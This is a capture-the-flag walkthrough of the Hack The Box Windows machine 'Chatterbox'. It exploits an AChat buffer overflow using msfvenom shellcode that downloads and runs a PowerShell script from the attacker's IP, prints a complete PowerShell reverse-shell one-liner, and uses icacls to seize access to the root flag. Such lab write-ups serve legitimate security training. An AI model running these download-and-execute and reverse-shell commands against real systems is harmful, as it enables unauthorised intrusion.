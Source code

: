 ![logo](/logo.png)

# [Chatterbox- BOX]  
Hi folks, today I am going to solve an Medium rated hack the box machine which was released on 27 Jan 2018 machine on HTB,Chatterbox created by [lkys37en](https://app.hackthebox.com/users/709).So without any further intro, let'sf jump in.

# common enumeration

## Nmap
  *http
  *steghide
  *Wordpress
  
###### code-nmap

```code
nmap -sV -sC -oA nmap/chatterbox 10.10.10.74 -Pn
```

###### Output 

![](/Windows/Windows-Medium/Chatterbox/Screenshots/1nmap.png)

looking at this it does not find anything so next we scan for all ports

```sh
nmap -sV -sC -oA nmap/chatterbox 10.10.10.74 -Pn -p-
```


Nmap finds only AChat running on the machine.In general, TCP/9255 is Monitor on Network, and TCP/9256 is unassigned. That’s not terribly helpful. However, there are multiple references to `AChat` (for example, [here](https://www.speedguide.net/port.php?port=9256)), and there’s a [SEH-based stack buffer overflow](https://www.exploit-db.com/exploits/36025/) for it.

Using msfvenom, it is possible to generate shellcode for use in the above exploit.

```sh
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.6/Invoke-PowerShellTcp.ps1')" -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode
```

![](/Windows/Windows-Medium/Chatterbox/Screenshots/msfvenom.png)

When working Windows hosts, I typically use the [Nishang](https://github.com/samratashok/nishang) `Invoke-PowerShellTcp.ps1` script to get a shell. We can do that pretty easily here by changing the command from simply launching calc to one that will invoke powershell and have it call to us to get the shell to execute:

```sh
#A simple and small reverse shell. Options and help removed to save space. 
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.6',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```

![](/Windows/Windows-Medium/Chatterbox/Screenshots/shellcode.png)
Put that output into the script, and run it: [AchatExploit](https://www.exploit-db.com/exploits/36025) the exploit below

![](/Windows/Windows-Medium/Chatterbox/Screenshots/vscodeshell.png)

![](/Windows/Windows-Medium/Chatterbox/Screenshots/exploit.png)

checking at the request we find that it has picked the file

![](/Windows/Windows-Medium/Chatterbox/Screenshots/listenning.png)

checking the listenning we get shell

![](/Windows/Windows-Medium/Chatterbox/Screenshots/shell.png)

you can get the `user.txt` in `Alfred`

![](/Windows/Windows-Medium/Chatterbox/Screenshots/userflag.png)

We don’t have read access to the file now:

```sh
icacls root.txt
```

![](/Windows/Windows-Medium/Chatterbox/Screenshots/icacls.png)

If we look at the directory for Desktop itself, Alfred actually has permissions on it:But, we can change that with `icacls`:

```sh
icacls root.txt /grant alfred:F
```

![](/Windows/Windows-Medium/Chatterbox/Screenshots/root.png)

then we find root after changing to `Alfred`

![](/Windows/Windows-Medium/Chatterbox/Screenshots/rootflag.png)

	-------------------------END successful attack @lesley----------------------




